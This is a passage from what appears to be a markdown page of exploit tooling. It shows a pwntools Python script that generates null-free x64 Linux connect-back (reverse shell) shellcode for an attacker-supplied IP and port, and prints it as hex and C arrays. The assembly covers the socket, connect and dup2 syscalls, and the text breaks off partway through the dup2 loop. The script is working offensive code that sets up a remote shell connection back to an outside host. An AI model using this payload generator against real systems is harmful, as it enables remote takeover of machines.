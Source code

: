+ [x64 Connect back shellcode generator](./connect.back.reverse.shell.x64.without.zeroes.py)

```python
from pwn import *
import ctypes, struct, sys, os, socket

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
#context.terminal = ["tmux", "splitw", "-h"]    # for command line terminal, launch tmux first before launching python code
context.log_level = 'error'

if (len(sys.argv) < 3):
  print('%s <IP> <PORT> [RUN]' % (sys.argv[0]))
  exit(1)

# define HOST & PORT here or in command line
IP, PORT = (sys.argv[1], int(sys.argv[2],10)) if len(sys.argv) > 2 else ('127.0.0.1', 12490)

def sockaddr():
    family = struct.pack('H', socket.AF_INET)
    portbytes = struct.pack('H', socket.htons(PORT))
    ipbytes = socket.inet_aton(IP)
    number = struct.unpack('Q', family + portbytes + ipbytes)
    number = -number[0]        #negate
    return hex((number + (1 << 64)) % (1 << 64))

def dumpit(shellc):
  print('shellcode length: {:d} bytes'.format(len(shellc)))
  # dump as hex number array
  print('\n\"\\x{}\"'.format('\\x'.join([format(b, '02x') for b in bytearray(shellc)])))
  # dump as C array
  print("\nunsigned char shellc[] = {{{}}};".format(", ".join([format(b, '#02x') for b in bytearray(shellc)])))
  # dump as hex array
  print('\nproblematic values are highlighted (00,0a,20) check your IP,port...\n')
  print(hexdump(shellc, highlight=b'\x0a\x20\x00'))

shellc = asm ('''
socket:
        push 41
        pop rax
        cdq
        push 2
        pop rdi
        push 1
        pop rsi
	syscall
connect:
	xchg eax,edi
	mov al,42
        mov rcx,%s
        neg rcx
        push rcx
        push rsp
        pop rsi
        mov dl,16
        syscall
dup2:
	push 3
        pop rsi
dup2_loop:
        mov al,33
```